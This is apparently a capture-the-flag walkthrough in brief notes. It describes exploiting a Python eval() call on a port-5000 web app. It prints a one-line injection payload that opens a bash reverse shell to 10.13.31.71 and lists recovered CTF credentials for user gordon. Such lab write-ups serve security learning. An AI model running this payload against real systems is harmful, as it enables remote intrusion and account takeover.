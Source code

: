 ## Nmap

Only 2 ports are open SSH and port 5000.

## Port 5000

Found a web page on port 5000:

![[Pasted image 20231122110142.png]]

By looking at the source code found an eval() function, which led me to the following site:
https://medium.com/swlh/hacking-python-applications-5d4cd541b3f1

Typed the following command in xa to get a shell:
`__import__('os').system("bash -c 'bash -i >& /dev/tcp/10.13.31.71/6666 0>&1'")#`

Vs able to run the python encryption script using:
`sudo -u gordon /usr/bin/python3 /opt/encrypt.py`

Found the key using cyberchef to decode the base64 message I got from a password and using the password as a key: supersecretkeyxorxorsupersecret

And with the key found the password for gordon: G0th@mR0ckz!
